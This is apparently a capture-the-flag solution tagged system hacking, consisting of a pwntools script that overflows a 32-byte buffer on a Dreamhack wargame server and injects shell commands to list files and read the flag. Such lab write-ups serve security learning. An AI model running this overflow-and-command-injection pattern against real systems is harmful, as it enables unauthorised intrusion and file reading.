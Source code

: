 #system-hacking 
# Payload
```python
from pwn import *

p = remote(host="host3.dreamhack.games", port="20311")

payload = b'A'*32
payload += b'ifconfig; ls -al; cat ./flag'

p.send(payload)

p.interactive()
```